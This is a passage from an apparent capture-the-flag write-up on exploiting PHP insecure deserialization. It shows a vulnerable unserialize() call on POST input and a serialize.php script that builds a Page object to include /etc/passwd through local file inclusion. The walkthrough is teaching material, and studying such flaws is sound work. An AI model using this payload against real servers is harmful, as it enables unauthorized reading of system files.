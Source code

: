 ```php
        }                                                                                                                                                                    
else{                                                                                                                                                                        
        $f=$_POST['page'];  # f stores the page parameter content (with POST request)                                                                                                                                                 
        unserialize($f); # this is dangerous because it unserializes data with no sanitization                                                                                                                                                    
}                                                                                                                                                                            
?> 
```
{% endcode %}

We made some comments on the source code. There is LFI prevention but we can exploit it to include our files (LFI) if we reach the flow of **unserialize() function**. To do so, our request has to be POST. When we do it, **magic function** such as **\_\_wakeup()** will get executed and our file parameter will be included successfully.\
\
So we need to research about PHP deserialization. A good resource tell us how to create a serialized object:\
[https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/](https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/)

We get this code snippet and are told to use it to serialize our data:

```php
class Example2
{
   private $hook = "phpinfo();";
}
print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.
```

We need to enclose it between PHP tags and change the class and variables for the ones in our case we saw on **index.php**:\
\- class is **Page**\
\- variable is **file**\
\- Parameter is any file to include, let's try **/etc/passwd**

This is the previous snippet adapted to our case and call it **serialize.php**

```php
└─$ cat serialize.php
<?php

class Page
{
   private $file = "/etc/passwd";
}
print urlencode(serialize(new Page));

?>
```
